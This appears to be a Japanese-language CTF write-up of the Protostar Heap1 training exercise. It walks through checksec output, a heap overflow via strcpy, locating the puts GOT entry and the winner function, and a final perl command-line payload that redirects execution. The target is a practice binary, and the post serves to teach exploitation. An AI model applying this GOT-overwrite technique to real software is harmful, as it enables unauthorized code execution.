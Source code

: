 ```yaml
---
layout: post
alias: "/blog/2016/01/22/exploit-exercises-protostar-heap1/"
title: "Exploit Exercises Protostar Heap1"
date: 2016-01-22T14:29:45+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


## [Protostar Heap1](https://exploit-exercises.com/protostar/heap1/)

``` sh
$ file heap1
heap1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=d8d9ab550fbb79da574639c8d3abdf96594cc21d, not stripped

$ checksec --file heap1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   heap1
```

と`No RELRO`なのでgotへの書き込みが可能である。与えられたコードによると、

``` c
  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
```

と2回書き込みがあるので、1回目でoverflowにより`i2->name`に`printf`のgotのアドレスを書き込み、2回目の書き込みはそのgotに目的の関数`winner`のアドレスを書き込めばよい。
ただし、`printf("and that's a wrap folks!\n");`の呼び出しは最適化により`puts("and that's a wrap folks!");`で置き換わっている[^1]ので、`puts`のgotを使用する。

``` sh
$ ./heap1 foo bar
and that's a wrap folks!

$ gdb heap1
...
# the malloc-ed addresses are 0x804a008, 0x804a018, 0x804a028 and 0x804a038

$ echo $[0x804a028+4 - 0x804a018]
20

$ objdump -d -M intel heap1 | grep -A 1 '<puts@plt>:'
080483cc <puts@plt>:
 80483cc:   ff 25 74 97 04 08       jmp    DWORD PTR ds:0x8049774

$ readelf -s heap1 | grep '\<winner\>'
    55: 08048494    37 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap1 $(perl -e 'print "A"x20, "\x74\x97\x04\x08"') $(echo "\x94\x84\x04\x08")
and we have a winner @ 1453452850
```

---

[^1]: gccであればdefaultの`-O0`でも発生する最適化。`-fno-builtin`で抑制できる。
